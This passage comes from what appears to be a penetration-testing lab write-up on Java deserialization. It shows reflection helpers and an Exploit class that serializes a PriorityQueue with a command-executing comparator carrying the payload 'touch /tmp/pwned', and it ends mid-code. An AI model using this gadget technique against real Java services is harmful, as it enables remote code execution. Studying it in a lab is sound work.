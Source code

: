 ```java

	public static Constructor<?> getFirstCtor(final String name) throws Exception {
		final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
	    setAccessible(ctor);
	    return ctor;
	}

	public static Object newInstance(String className, Object ... args) throws Exception {
        return getFirstCtor(className).newInstance(args);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    @SuppressWarnings ( {"unchecked"} )
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
	    setAccessible(objCons);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
	    setAccessible(sc);
        return (T)sc.newInstance(consArgs);
    }

}
```

These files should give you everything we need to create a `java.util.PriorityQueue` with the malicious elements in it with running the `compare()` method locally.
**The AnotherClass** is a custom comparator that implements both Comparator and Serializable interfaces. It has a compare(String a, String b) method that tries to execute the command provided in the string a and returns the exit value of the command. If the command execution fails, it throws a RuntimeException.

**The Exploit** class creates a PriorityQueue with AnotherClass as the comparator, adds two String objects to the queue to ensure compare() is called during deserialization, serializes the queue to a byte array, and then encodes the byte array to a base64 string.

```java
package com.pentesterlab;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import java.util.PriorityQueue;

public class Exploit {
    public static void main(String[] args) throws IOException {
        AnotherClass comparator = new AnotherClass();
        PriorityQueue<String> priorityQueue = new PriorityQueue<>(2, comparator);
        priorityQueue.add("touch /tmp/pwned");
        priorityQueue.add("touch /tmp/pwned");

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
```